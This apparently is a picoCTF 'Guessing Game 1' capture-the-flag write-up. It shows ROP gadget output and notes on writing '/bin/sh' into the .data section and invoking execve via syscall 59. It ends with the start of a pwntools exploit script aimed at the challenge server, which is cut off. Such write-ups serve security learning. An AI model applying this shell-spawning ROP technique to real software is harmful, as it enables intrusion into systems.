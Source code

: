 ```
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x47ff91 mov qword ptr [rsi], rax ; ret
	[+] Gadget found: 0x410ca3 pop rsi ; ret
	[+] Gadget found: 0x4163f4 pop rax ; ret
	[+] Gadget found: 0x445950 xor rax, rax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x445950 xor rax, rax ; ret
	[+] Gadget found: 0x475430 add rax, 1 ; ret
	[+] Gadget found: 0x475431 add eax, 1 ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x400696 pop rdi ; ret
	[+] Gadget found: 0x410ca3 pop rsi ; ret
	[+] Gadget found: 0x44a6b5 pop rdx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x40137c syscall

- Step 5 -- Build the ROP chain
```

the thing is we gonna write "/bin/sh" somehwere then call   execve and give it the 3 args rsi rdi and rdx then syscall for that we gonna use this gadgets

but first thing we need to find where we gonna write "/bin/sh"
using readelf :

``readelf -S viln_patched``

we got .data 0x00000000006ba0e0

now let continue with syscall function it takes one arg its an int to the syscall for execve we got 59 following syscall table
<img width="1233" alt="Screen Shot 2023-06-09 at 3 20 12 PM" src="https://github.com/OussamaElouarti/picoCTF-Guessing-Game-1/assets/49252717/57dad3c3-47d7-4145-9427-65ad1a1592ef">

it takes 3 args the first one we will write /bin/bash on it /bin/sh =hex= 0x68732f6e69622f the other args we can put 0

after building the script we got this

```
#!/usr/bin/env python3

from pwn import *
import random

exe = ELF("./viln_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("jupiter.challenges.picoctf.org", 51462)
```